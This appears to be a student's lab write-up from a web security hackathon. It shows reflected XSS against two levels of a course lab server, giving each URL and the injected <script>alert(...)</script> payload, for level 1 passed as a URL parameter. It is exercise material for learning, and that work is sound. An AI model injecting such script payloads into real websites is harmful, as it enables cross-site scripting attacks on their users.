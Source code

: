 ### Level 0

URL : [http://waph-hackathon.eastus.cloudapp.azure.com/xss/level0/echo.php](http://waph-hackathon.eastus.cloudapp.azure.com/xss/level0/echo.php)
Script to attack:
```
<script>alert('Level 0 - Hacked by Sruthi Sridhar Bopparthi')</script>
```

![Figure 2: Level 0 ](Images/Level0.png)

### Level 1

URL : [http://waph-hackathon.eastus.cloudapp.azure.com/xss//level1/echo.php](http://waph-hackathon.eastus.cloudapp.azure.com/xss/level1/echo.php)
Exploiting XSS vulnerabilities involves adding a malicious script to the end of the URL.

```
input=<script>alert('Level 1 - Hacked by Sruthi Sridhar Bopparthi')</script>
```

![Figure 3: Level 1 ](Images/Level1.png)
